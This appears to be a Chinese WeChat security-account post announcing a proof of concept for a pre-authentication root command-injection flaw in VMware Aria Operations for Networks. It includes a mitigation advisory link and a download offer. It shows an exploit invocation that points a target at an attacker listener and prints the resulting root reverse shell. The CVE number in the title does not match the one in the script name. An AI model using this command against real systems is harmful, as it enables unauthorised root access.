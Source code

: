 #  POC速递 - VMWare RCE CVE-2023-2087

[ Khan安全攻防实验室 ](javascript:void\(0\);)

**Khan安全攻防实验室** ![]()

微信号 KhanCJSH

功能介绍 安全不是一个人，我们来自五湖四海。研究方向Web内网渗透，免杀技术，红蓝攻防对抗，CTF。

____

___发表于_

收录于合集

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230621224426.png)

        VMWare Aria Operations for Networks (vRealize Network Insight) 在通过 Apache Thrift RPC 接口接受用户输入时容易受到命令注入的攻击。此漏洞允许远程未经身份验证的攻击者以 root 用户身份在底层操作系统上执行任意命令。RPC 接口受可以绕过的反向代理保护。VMware 已将此问题的严重性评估为处于严重严重性范围内，最高 CVSSv3 基本分数为 9.8。恶意行为者可以在设备的“root”上下文中远程执行代码。VMWare 6.x 版本易受攻击。

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230621224427.png)

  *   *   *   *   *   *   *   *   *   * 

    
    
    python CVE-2023-20887.py --url https://192.168.116.100 --attacker 192.168.116.1:1337VMWare Aria Operations for Networks (vRealize Network Insight) pre-authenticated RCE || Sina Kheirkhah (@SinSinology) of Summoning Team (@SummoningTeam)(*) Starting handler(+) Received connection from 192.168.116.100(+) pop thy shell! (it's ready)sudo bashiduid=0(root) gid=0(root) groups=0(root)hostnamevrni-platform-release

  

缓解措施

https://www.vmware.com/security/advisories/VMSA-2023-0012.html

  

POC下载地址

点击下方名片进入公众号、回复关键字【0616】获取下载链接

  

免责声明：本项目仅用于教育和道德测试。在未经事先相互同意的情况下使用此工具攻击目标是非法的。开发者不承担任何责任，也不对本工具造成的任何误用或损害负责。

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

